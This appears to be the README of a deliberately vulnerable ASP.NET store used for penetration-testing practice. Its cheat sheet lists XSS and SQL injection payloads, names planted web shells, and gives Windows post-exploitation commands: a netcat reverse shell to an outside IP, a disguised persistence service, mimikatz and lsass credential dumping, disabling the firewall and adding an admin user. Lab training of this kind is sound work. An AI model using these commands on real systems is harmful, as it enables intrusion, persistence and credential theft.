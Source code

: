 # MvcProductStore
A simple product store with many unsafe features used for PEN testing.
Based on the old Microsoft tutorial for MvcMusicStore found at https://docs.microsoft.com/en-us/aspnet/mvc/overview/older-versions/mvc-music-store/.

## Cheat sheet

### Authorisation
An admin has left a hint on the login page. See if you can find it in the source code for the page. Can you figure out the email address? Probably the domain has something to do with the site.

Another way to get in as admin is to create a regular user. Check the Register page source code for hints, and examine what is being posted back to the server. Maybe you can escalate yourself as admin by fiddling with the POST values?

### XSS
On the front page is a box for user reviews. It seems you can paste almost anything in the textbox!

Things to try https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20injection:
          
           Basic payload
            <script>alert('XSS')</script>
            <scr<script>ipt>alert('XSS')</scr<script>ipt>
            "><script>alert('XSS')</script>
            "><script>alert(String.fromCharCode(88,83,83))</script>
                    
           Img payload
            <img src=x onerror=alert('XSS');>
            <img src=x onerror=alert('XSS')//
            <img src=x onerror=alert(String.fromCharCode(88,83,83));>
            <img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
            <img src=x:alert(alt) onerror=eval(src) alt=xss>
            "><img src=x onerror=alert('XSS');>
            "><img src=x onerror=alert(String.fromCharCode(88,83,83));>

### SQL injection
Try if you can inject some code in the search field.
Here are some examples that might get you started:
    ' OR 1=1 UNION SELECT 99, @@version, 'http://foo.gif' --
    ' OR 1=1 UNION SELECT 99, system_user, 'http://foo.gif' --
    ' OR 1=1 UNION SELECT 99, DB_NAME(), 'http://foo.gif' --
    ' OR 1=1 UNION SELECT 99, name, 'http://foo.gif' FROM master..sysdatabases --
    ' OR 1=1 UNION SELECT 99, name, 'http://foo.gif' FROM MvcProductStore..sysobjects WHERE xtype = 'U' --
    ' OR 1=1 UNION SELECT 99, name, 'http://foo.gif' FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = 'AspNetUsers') --

### Exploitation
If we can get access to the server it's easy to upload your own shell code and have the website execute it.
There is a Shell method in the StoreManager controller /StoreManager/Shell. Check it out. 
Also another shell in the root /shell.aspx?c="COMMAND HERE". 

#### Usefull commands:
net localgroup Users
net localgroup Administrators
search dir/s *.doc
system("start cmd.exe /k $cmd")
sc create microsoft_update binpath="cmd /K start c:\nc.exe -d ip-of-hacker port -e cmd.exe" start= auto error= ignore
/c C:\nc.exe -e c:\windows\system32\cmd.exe -vv 23.92.17.103 7779
mimikatz.exe "privilege::debug" "log" "sekurlsa::logonpasswords"
Procdump.exe -accepteula -ma lsass.exe lsass.dmp
mimikatz.exe "sekurlsa::minidump lsass.dmp" "log" "sekurlsa::logonpasswords"
C:\temp\procdump.exe -accepteula -ma lsass.exe lsass.dmp For 32 bits
C:\temp\procdump.exe -accepteula -64 -ma lsass.exe lsass.dmp For 64 bits

#### Turn off firewall
netsh firewall set opmode disable 

#### Add new user
net user test 1234 /add
net localgroup administrators test /add

#### Mimikatz
git clone https://github.com/gentilkiwi/mimikatz.git
privilege::debug
sekurlsa::logonPasswords full


### More stuff
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources
https://jivoi.github.io/2015/07/01/pentest-tips-and-tricks/


## Git

### Initial setup

```
cd into 'MvcProductStore' dir
git init                    # initialize directory
git add . -A                # add all files from current and subdirectories
git commit -m "msg"         # commit changes to local repo
git remote add origin <url> # add remote repo
git remote -v               # check repo names
git pull origin master --allow-unrelated-histories  # get latest from remote repo
git push origin master  # push changes to remote repo

```

### Clone

```
cd into 'MvcProductStore' dir
git clone <remote>          # clone remote repo

```
